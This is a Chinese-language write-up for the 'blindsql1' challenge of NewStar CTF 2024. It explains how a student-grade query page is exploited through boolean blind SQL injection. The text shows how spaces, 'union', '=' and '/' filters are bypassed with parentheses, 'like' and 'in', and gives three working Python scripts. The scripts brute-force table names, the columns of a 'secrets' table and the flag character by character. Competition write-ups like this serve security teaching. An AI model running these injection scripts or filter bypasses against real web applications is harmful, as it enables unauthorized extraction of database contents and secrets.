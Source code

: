 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# blindsql1

能够根据姓名查询成绩

![正常查询](/assets/images/wp/2024/week3/blindsql1_1.png)

加入单引号时，查询失败，说明存在注入

![存在注入](/assets/images/wp/2024/week3/blindsql1_2.png)

尝试 `Alice' or 1=1#`<span data-desc>（注意 `#` 要 URL 编码成 `%23`）</span>时，提示空格被禁用了

![空格被禁用](/assets/images/wp/2024/week3/blindsql1_3.png)

多次尝试，会发现 `union` `=` `/` 都被禁用了。

`union` 被禁用，说明此时该使用盲注，我们能够通过插入 `and 1` 或者 `and 0` 来控制是否返回数据，由此可以使用布尔盲注

`=` 的绕过可以使用 `like` 或者 `in` 代替

空格和斜杠 `/` 被禁用，可以使用括号代替

---

爆破表名

```python

import requests,string,time

url = ''

result = ''
for i in range(1,100):
    print(f'[+] Bruting at {i}')
    for c in string.ascii_letters + string.digits + '_-{}':
        time.sleep(0.2) # 限制速率，防止请求过快

        print('[+] Trying:', c)

        # 这条语句能查询到当前数据库所有的表名
        tables = f'(Select(group_concat(table_name))from(infOrmation_schema.tables)where((table_schema)like(database())))'

        # 获取所有表名的第 i 个字符，并计算 ascii 值
        char = f'(ord(mid({tables},{i},1)))'

        # 爆破该 ascii 值
        b = f'(({char})in({ord(c)}))'

        # 若 ascii 猜对了，则 and 后面的结果是 true，会返回 Alice 的数据
        p = f'Alice\'and({b})#'

        res = requests.get(url, params={'student_name': p})

        if 'Alice' in res.text:
            print('[*]bingo:',c)
            result += c
            print(result)
            break
```

爆破 `secrets` 表的列名

```python

import requests,string,time

url = ''

result = ''
for i in range(1,100):
    print(f'[+] Bruting at {i}')
    for c in string.ascii_letters + string.digits + ',_-{}':
        time.sleep(0.01) # 限制速率，防止请求过快

        print('[+] Trying:', c)

        tables = f'(Select(group_concat(column_name))from(infOrmation_schema.columns)where((table_name)like(\'secrets\')))'

        char = f'(ord(mid({tables},{i},1)))'

        # 爆破该 ascii 值
        b = f'(({char})in({ord(c)}))'

        # 若 ascii 猜对了，则 and 后面的结果是 true，会返回 Alice 的数据
        p = f'Alice\'and({b})#'

        res = requests.get(url, params={'student_name': p})

        if 'Alice' in res.text:
            print('[*]bingo:',c)
            result += c
            print(result)
            break
```

爆破 flag

```python
import requests,string,time

url = ''

result = ''
for i in range(1,100):
    print(f'[+] Bruting at {i}')
    for c in string.ascii_letters + string.digits + ',_-{}':
        time.sleep(0.01) # 限制速率，防止请求过快

        print('[+] Trying:', c)

        tables = f'(Select(group_concat(secret_value))from(secrets)where((secret_value)like(\'flag%\')))'

        char = f'(ord(mid({tables},{i},1)))'

        # 爆破该 ascii 值
        b = f'(({char})in({ord(c)}))'

        # 若 ascii 猜对了，则 and 后面的结果是 true，会返回 Alice 的数据
        p = f'Alice\'and({b})#'

        res = requests.get(url, params={'student_name': p})

        if 'Alice' in res.text:
            print('[*]bingo:',c)
            result += c
            print(result)
            break
```
